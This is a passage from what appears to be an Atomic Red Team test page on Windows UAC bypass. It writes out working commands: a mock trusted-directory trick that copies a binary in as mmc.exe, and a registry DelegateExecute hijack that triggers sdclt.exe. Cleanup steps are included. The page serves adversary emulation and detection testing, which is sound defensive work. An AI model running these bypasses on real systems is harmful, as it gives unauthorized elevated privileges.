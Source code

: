 #### Inputs:

| Name              | Description                       | Type | Default Value                           |
| ----------------- | --------------------------------- | ---- | --------------------------------------- |
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
mkdir "\\?\C:\Windows \System32\"
copy "#{executable_binary}" "\\?\C:\Windows \System32\mmc.exe"
mklink c:\testbypass.exe "\\?\C:\Windows \System32\mmc.exe"
```

#### Cleanup Commands:

```cmd
rd "\\?\C:\Windows \" /S /Q >nul 2>nul
del "c:\testbypass.exe" >nul 2>nul
```

<br/>
<br/>

## Atomic Test #7 - Bypass UAC using sdclt DelegateExecute

Bypasses User Account Control using a fileless method, registry only.
Upon successful execution, sdclt.exe will spawn cmd.exe to spawn notepad.exe
[Reference - sevagas.com](http://blog.sevagas.com/?Yet-another-sdclt-UAC-bypass)
Adapted from [MITRE ATT&CK Evals](https://github.com/mitre-attack/attack-arsenal/blob/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/stepFourteen_bypassUAC.ps1)

**Supported Platforms:** Windows

**auto_generated_guid:** 3be891eb-4608-4173-87e8-78b494c029b7

#### Inputs:

| Name               | Description        | Type   | Default Value          |
| ------------------ | ------------------ | ------ | ---------------------- |
| command_to_execute | Command to execute | string | cmd.exe /c notepad.exe |

#### Attack Commands: Run with `powershell`!

```powershell
New-Item -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Value '#{command_to_execute}'
New-ItemProperty -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute"
Start-Process -FilePath $env:windir\system32\sdclt.exe
Start-Sleep -s 3
```
